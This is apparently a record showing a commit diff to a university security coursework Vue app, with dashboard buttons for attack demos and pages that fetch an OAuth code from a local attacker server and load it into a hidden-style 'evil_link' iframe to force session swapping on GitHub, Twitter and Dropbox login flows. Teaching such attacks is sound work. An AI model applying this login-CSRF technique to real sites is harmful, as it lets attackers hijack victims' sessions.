

Before and after one commit to RblueskyT/COMP0055CW1-att-fe, a Vue app: page /dashboard in a window 1280 px wide. Shown: the top 392 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
bug fixed

```diff
--- a/src/views/DashboardView.vue
+++ b/src/views/DashboardView.vue
@@ -21,14 +21,13 @@
       </iframe> -->
       <button type="button"  @click="router.push({name: 'xss'})">Demonstrate XSS</button>
       <br><br>
+      <button type="button"  @click="pushSessionSwappingViewGithubSF()">Demonstrate Session Swapping Dropbox (recommended)</button>
+      <br><br>
+      <button type="button"  @click="pushAutoSessionSwappingGithub()">Demonstrate Automated Session Swapping Github</button>
+      <br><br>
       <button type="button"  @click="pushForceLoginView()">Demonstrate Force Login</button>
-      <br><br>
-      <button type="button"  @click="pushSessionSwappingViewGithubSF()">Demonstrate Session Swapping Github SF</button>
-      <br><br>
-      <button type="button" @click="pushSessionSwappingViewTwitter()">Demonstrate Session Swapping Twitter</button>
-      <br><br>
-      <button type="button"  @click="pushAutoSessionSwappingGithub()">Demonstrate Session Swapping Github SF</button>
-      <br><br>
+      <p>----------------------------------------------------------------------</p>
+      <button type="button" @click="pushSessionSwappingViewTwitter()">Demonstrate Session Swapping Twitter (alternative)</button>
     </div>
   </template>
 
--- a/src/views/SessionSwappingTwitterView.vue
+++ b/src/views/SessionSwappingTwitterView.vue
@@ -10,8 +10,8 @@
           </iframe> -->
 
           <!-- <iframe src="http://localhost:8080/login?code=4a0622b77c02948efe30&amp;login_method=githubLoginSF" style="width:100%;"> -->
-          <!-- <iframe src="http://localhost:8080/login?code=e8af4442c23a9d8a92a6&amp;login_method=githubLoginSF" style="width:100%;" hidden> -->
-          <iframe :src='evil_link' style="width:100%;">
+          <!-- <iframe src="http://localhost:8080/login?code=e8af4442c23a9d8a92a6&amp;login_method=githubLoginSF" style="width:100%;"> -->
+          <iframe :src=evil_link style="width:100%;">
           </iframe>
       <div>
     </div>
@@ -47,11 +47,11 @@
           const resData = await axios.get('http://localhost:8001/oauthcode/get_code');
           console.log(resData)
           if (resData.status === 200) {
-              const code = resData.data;
-              console.log(code)
-              // evil_link.value = `http://localhost:8080/login?state=state&code=${code}&login_method=twitterLoginSF`
-          evil_link.value = `http://localhost:8080/login?state=state&code=${code}&login_method=twitterLoginSF`
-                      console.log(evil_link.value)
+            const code = resData.data;
+            console.log(code)
+            // evil_link.value = `http://localhost:8080/login?state=state&code=${code}&login_method=twitterLoginSF`
+            // evil_link.value = `http://localhost:8080/login?code=bSRDN66vg_AAAAAAAAAAGv5rDwZrdEEFtlp5IhmjQRc&login_method=DropboxSF`
+            evil_link.value = `http://localhost:8080/login?state=state&code=${code}&login_method=twitterLoginSF`
           } else {
             alert('Unknown Error Occurs');
           }
--- a/src/views/SessionSwappingView.vue
+++ b/src/views/SessionSwappingView.vue
@@ -10,10 +10,10 @@
           </iframe> -->
 
           <!-- <iframe src="http://localhost:8080/login?code=4a0622b77c02948efe30&amp;login_method=githubLoginSF" style="width:100%;"> -->
-          <!-- <iframe src="http://localhost:8080/login?code=a89ef531c4487acde0c0&amp;login_method=githubLoginSF" style="width:100%;"> -->
+          <!-- <iframe src="http://localhost:8080/login?code=bSRDN66vg_AAAAAAAAAAHCOA1TiFAOwmr4iQO5yaI0M&amp;login_method=DropboxSF" style="width:100%;"> -->
           <!-- <iframe :src=evil_link2 style="width:100%;">
           </iframe> -->
-
+          <!-- <iframe src='http://localhost:8080/login?code=bSRDN66vg_AAAAAAAAAAHCOA1TiFAOwmr4iQO5yaI0M&amp;login_method=DropboxSF' style="width:100%;"></iframe> -->
           <iframe :src=evil_link style="width:100%;">
           </iframe>
       <div>
@@ -64,8 +64,10 @@
                       const code = resData.data;
                       console.log("code",code)
                       // evil_link.value = `http://localhost:8080/login?state=state&code=${code}&login_method=twitterLoginSF`
-                      // evil_link.value = 'http://localhost:8080/login?code=a89ef531c4487acde0c0&login_method=githubLoginSF'
-                      evil_link.value = `http://localhost:8080/login?code=${code}&login_method=githubLoginSF`
+                      // evil_link.value = 'http://localhost:8080/login?code=bSRDN66vg_AAAAAAAAAAHUgZogADBXIrpK4EHM3jh6E&login_method=DropboxSF'
+                      // evil_link.value = `http://localhost:8080/login?code=${code}&login_method=githubLoginSF`
+                      evil_link.value = `http://localhost:8080/login?code=${code}&login_method=DropboxSF`
+
                       // console.log(evil_link.value)
                   } else {
                   alert('Unknown Error Occurs');
```
